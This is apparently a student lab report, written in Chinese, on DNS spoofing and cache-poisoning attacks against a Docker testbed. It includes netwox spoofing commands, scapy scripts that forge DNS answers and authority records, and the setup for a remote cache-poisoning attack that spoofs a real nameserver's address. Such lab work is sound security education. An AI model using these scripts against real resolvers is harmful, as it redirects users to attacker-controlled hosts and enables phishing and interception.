# P1 环境配置

由于遇到了这个问题


`sudo docker run -it --name=user --hostname=user "seedubuntu" /bin/bash`

`sudo docker run -it --name=dns --hostname=dns "seedubuntu" /bin/bash`

- `user：172.17.0.2`
- `dns：172.17.0.3`
- `attacker：172.17.0.1`



# P2 dig www.example

## user

启动作为user的docker，并修改/etc/resolv.conf文件，在其中添加server的IP地址，将其作为本地DNS服务器

注意把原来的注释掉


## dns

 查看dns中的/etc/bind/named.conf.options文件，发现默认配置即满足实验要求，不做更改，保存退出



 启动bind9服务

`service bind9 start`

在user上使用dig命令查询[www.baidu.com](http://www.baidu.com)的地址信息，在等待一段时间后，收到dnsServer返回的信息，可以看到SERVER字段与配置的DNS服务器地址相同




## dns域创建测试

在文件中两个区域条目，分别用于[www.example.com](http://www.example.com)的正向和反向查找的区域，如下图:



 进一步将实验附件中的example.com.db和192.168.0.db文件从主机拷贝至虚拟机，再由虚拟机中拷贝至dns 中的/etc/bind/路径下。


 对配置进行改动后，重启bind9服务使其生效。


完成前述步骤后，在user上使用dig命令查询[www.example.com](http://www.example.com)

可以看到查询结果与文件中的设置结果一致，实验环境配置完成。



# P3 netwox用户响应欺骗攻击

攻击命令

`sudo netwox 105 -h "www.baidu.com" -H "1.2.3.4" -a "ns.baidu.com" -A "1.2.3.5"`

攻击前在user 上使用dig命令查询[www.baidu.com](http://www.baidu.com)，从本地DNS服务器（dns）得到相应结果如下



模拟真实情况（用户需要查询，而本地服务器没有缓存）


在攻击机上输入攻击用的netwox命令，之后在use中输入dig命令对[www.baidu.com](http://www.baidu.com)进行查询，分别在user和攻击机得到如下结果。攻击机上netwox攻击成功后返回了相关请求和伪造报文字段、信息：



攻击成功

# P4 netwox缓存中毒攻击

攻击命令

`sudo netwox 105 -h "www.qq.com" -H "1.2.3.4" -a "ns.xzc.com" -A "1.2.3.5" -f "src host 172.17.0.3" -d docker0  -T 600`

攻击前在user上使用dig命令查询www.qq.com，从本地DNS服务器（dnsServer）得到相应结果如下



 模拟真实情况（用户需要查询，而本地服务器没有缓存）


为提高实验成功率，添加对外访问的时延  

`sudo tc qdisc add dev ens33 root netem delay 10s  `

 在攻击机上输入攻击用的netwox命令，之后在user中输入dig命令对[www.qq.com](http://www.qq.com)进行查询，得到结果如下



攻击成功

`rndc dumpdb -cache && cat /var/cache/bind/dump.db | grep -E "qq|xzc"  `


# P5 scapyDNS缓存中毒攻击

## 授权域

scapy脚本如下

1.py

```python
#!/usr/bin/python
from scapy.all import *
def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        # Swap the source and destination IP address
        IPpkt = IP(dst = pkt[IP].src, src = pkt[IP].dst)
        # Swap the source and destination port number
        UDPpkt = UDP(dport = pkt[UDP].sport, sport = 53)
        # The Answer Section
        Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
        ttl = 259200, rdata = '1.1.1.1')
        # The Authority Section
        NSsec1 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns1.example.net')
        NSsec2 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns2.example.net')
        # The Additional Section
        Addsec1 = DNSRR(rrname = 'ns1.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.4')
        Addsec2 = DNSRR(rrname = 'ns2.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.5')
        # Construct the DNS packet
        DNSpkt = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, rd = 0, qr = 1,
        qdcount = 1, ancount = 1, nscount = 2, arcount = 2,
        an = Anssec, ns = NSsec1/NSsec2, ar = Addsec1/Addsec2)
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter = 'udp and dst port 53 and src host 172.17.0.3',
prn = spoof_dns, iface = "docker0")

```

 完成编写后，在命令行中启动该脚本保持监听，准备攻击

运行脚本，在user端使用 dig www.example.net 命令激发dns查询，得到和攻击脚本一致的返回结果，
如下：  




## 附加域

脚本如下

```python
#!/usr/bin/python
from scapy.all import *
def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        # Swap the source and destination IP address
        IPpkt = IP(dst = pkt[IP].src, src = pkt[IP].dst)
        # Swap the source and destination port number
        UDPpkt = UDP(dport = pkt[UDP].sport, sport = 53)
        # The Answer Section
        Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
        ttl = 259200, rdata = '1.1.1.1')
        
        
        # The Authority Section
        NSsec1 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns1.example.net')
        NSsec2 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns2.example.net')
        NSsec3 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'www.facebook.com')

        
        # The Additional Section
        Addsec1 = DNSRR(rrname = 'ns1.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.4')
        Addsec2 = DNSRR(rrname = 'ns2.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.5')

        Addsec3 = DNSRR(rrname = 'www.facebook.com', type = 'A',
        ttl = 259200, rdata = '3.4.5.6')

        
        # Construct the DNS packet
        DNSpkt = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, rd = 0, qr = 1,
        qdcount = 1, ancount = 1, nscount = 3, arcount = 3,
        an = Anssec, ns = NSsec1/NSsec2/NSsec3, ar = Addsec1/Addsec2/Addsec3)
        # Construct the entire IP packet and send it out
        
        
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter = 'udp and dst port 53 and src host 172.17.0.3',
prn = spoof_dns, iface = "docker0")

```

攻击成功


# P6 远程DNS缓存中毒攻击环境配置

## 配置本地dns服务器

为了使得本地DNS服务器将攻击中所指定的重定向域当作真实的域，首先将先前在/etc/bind/named.conf文件中添加的example.com相关内容注释掉，并在/etc/bind/named.conf.default-zones中添加如下内容:




创建/etc/bind/xzc.net.db文件，写入



使得ns.xzc.net指向攻击机 172.17.0.1  

## 配置攻击机

在主机即172.17.0.1的/etc/bind/named.conf.local中配置  


使得其能对example.com应答
创建/etc/bind/example.com.zone  



使得攻击机应答的内容为我们所配置的。
在用户机上指定我们配置的服务器进行测试：  


# P7 远程DNS缓存中毒攻击

在user里dig www.example.com



## 查询攻击

向DNS服务器发送xxx.example.com，来触发其向example.com 域的名称服务器发送 DNS 查询；
先直接请求，可以看到本地dns服务器返回了正确结果：

 主机执行脚本如下：

```python
#!/usr/bin/python
from scapy.all import *

Qdsec = DNSQR(qname='www.example.com')

dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
ip = IP(dst='172.17.0.3',src='172.17.0.2')
udp=UDP(dport=53,sport=33333,chksum=0)
request = ip/udp/dns
send(request)
```

抓包如下




## 构造回应报文

源地址写为我们得到的example域的正确地址：  

```python
#!/usr/bin/python
from scapy.all import *

name = "www.example.com"
domain = 'example.com'
ns = 'ns.xzc.net'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=domain,type='NS',rdata=ns,ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1,
            arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst='172.17.0.3',src='199.43.135.53')
udp = UDP(dport=53,sport=33333,chksum=0)
reply = ip/udp/dns
send(reply)
```

抓包如下




因为scapy python发送回应包的速度太慢，所以我们需要通过python构造数据包，然后c程序读入后进
行发送：  

5.py

```python
from scapy.all import *

targetName="xxxxx.example.com"
targetDomain="example.com"
attackerNS ="ns.xzc.net"

dstIP="172.17.0.3"
srcIP='199.43.135.53'                                    

ip = IP(dst=dstIP,src=srcIP,chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

Qdsec = DNSQR(qname=targetName)
Ansec = DNSRR(rrname=targetName,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=targetDomain,type='NS',rdata=attackerNS,ttl=259200)
dns   = DNS(id=0xAAAA,aa=1,rd=1,qr=1,qdcount=1,ancount=1,nscount=1,arcount=0,qd=Qdsec,an=Ansec,ns=NSsec)
Replypkt = ip/udp/dns

with open('ip.bin','wb') as f:
	f.write(bytes(Replypkt))
```

6.py

```python
#!/usr/bin/python
from scapy.all import *

IPpacket = IP(dst='172.17.0.3', src='172.17.0.2') 
UDPpacket = UDP(sport=33333, dport=53, chksum=0)
targetName = 'twysw.example.com'
Querysection = DNSQR(qname=targetName)
DNSpacket = DNS(rd=1, qdcount=1, qd=Querysection)
QueryPacket = IPpacket/UDPpacket/DNSpacket

with open('ip_req.bin','wb') as f:
    f.write(bytes(QueryPacket))

```

## 攻击过程

准备好python构造的数据文件后，编写c程序读取，并依次构造发送包和请求包，因为代码较长，以附
件形式给出。  

代码写在1.c






攻击成功